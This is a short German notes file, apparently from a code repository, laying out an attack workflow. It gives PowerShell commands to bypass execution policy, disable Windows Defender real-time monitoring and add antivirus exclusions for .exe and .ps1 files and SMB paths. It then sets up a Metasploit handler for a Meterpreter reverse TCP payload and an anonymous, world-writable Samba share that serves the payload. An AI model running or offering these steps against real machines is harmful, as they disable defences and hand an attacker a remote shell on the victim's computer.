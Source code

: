 # Notizen – 81a5terfr34k

Windows Richtlinien mit Powershell Befehlen setzen (SET) ODER Anzeigen (Get):
>>>> Ausführungsrichtlinien anzeigen <<<<
PS> Get-ExecutionPolicy
>>>> skriptausführung zulassen <<<<
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
>>>> Antivirenscanner ausschalten <<<<
PS> Set-MpPreference -DisableRealtimeMonitoring $true
>>>> Antivirenscanner einschalten <<<<
PS> Set-MpPreference -DisableRealtimeMonitoring $false
>>>> Ausnahmen hinzufügen <<<<
Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"
Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad" ODER "\\192.168.x.x\SMB-Pfad"


-> Script ausführen mit:
PS> .\<scriptname>.ps1

Linux:
--> Payload erstellen:
$ msfvenom
 
--> Meterpreter sitzung Listener:
$ msfconsole
msf6> use exploit/multi/handler
msf6> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6> set LHOST <kali IP>
msf6> set LPORT 4444
msf6> set ExitOnSession false
msf6> exploit -j

--> smbshare Ordner erstellen:
$ sudo mkdir -p /srv/smbshare
$ sudo chmod -R 777 /srv/smbshare

--> Payload nach smbshare Ordner verschieben:
$ mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/

--> Inhalt von smbshare kontrollieren:
$ ls -l /srv/smbshare

--> SMB Dienst starten:
$ sudo systemctl start smbd

--> SMB Dienst status prüfen:
$ sudo systemctl status smbd

--> Zugriff auf smbshare testen:
$ smbclient //localhost/share -N

--> aktive Samba Konfiguration anzeigen:
$ testparm ( /etc/samba/smb.conf)

--> Samba Konfigurations-DATEI bearbeiten:
$ sudo nano /etc/samba/smb.conf  
--> NEUEN [share]-Block ganz unten im dokument erstellen mit:
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
--> zusätzlich im [global]-Block ergänzen:
   map to guest = Bad User
--> speichern mit strg+0 und schliessen mit strg+x

--> SMB Dienst neu starten:
$ sudo systemctl restart smbd
